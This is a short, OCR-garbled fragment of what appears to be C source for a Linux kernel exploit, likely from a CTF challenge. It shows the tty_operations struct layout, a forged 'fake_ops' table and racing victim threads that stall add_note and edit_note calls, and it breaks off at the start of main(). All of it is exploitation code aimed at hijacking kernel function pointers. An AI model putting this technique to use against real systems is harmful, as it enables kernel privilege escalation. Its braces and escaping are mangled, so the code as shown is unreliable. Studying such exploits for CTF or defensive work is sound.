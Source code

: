         /* — cacheline 3 boundary (192 bytes) — */

        void                       (*send_xchar)(struct tty_struct *, char); /*   192     8 */

        int                        (*tiocmget)(struct tty_struct *); /*   200     8 */

        int                        (*tiocmset)(struct tty_struct *, unsigned int, unsigned int); /*   208     8 */

        int                        (*resize)(struct tty_struct *, struct winsize *); /*   216     8 */

        int                        (*set_termiox)(struct tty_struct *, struct termiox *); /*   224     8 */

        int                        (*get_icount)(struct tty_struct *, struct serial_icounter_struct *); /*   232     8 */

        const struct file_operations  * proc_fops;       /*   240     8 */

​

        /* size: 248, cachelines: 4, members: 31 */

        /* last cacheline: 56 bytes */

`}`;

​

struct tty_operations fake_ops;

/* ———————————————— */

​

sem_t edit_go;

void* victim_thread_edit(void* i) `{`

  sem_wait(&amp;edit_go);

  edit_note((int)i, SUPER_BIG, stuck_forever);

  return NULL;

`}`

​

sem_t add_go;

void* victim_thread_add(void* i) `{`

  sem_wait(&amp;add_go);

  add_note((int)i, 0x60, stuck_forever);

  return NULL;

`}`

​

int main(int argc, char *argv[]) `{`

  unsigned char cpu_mask = 0x01;
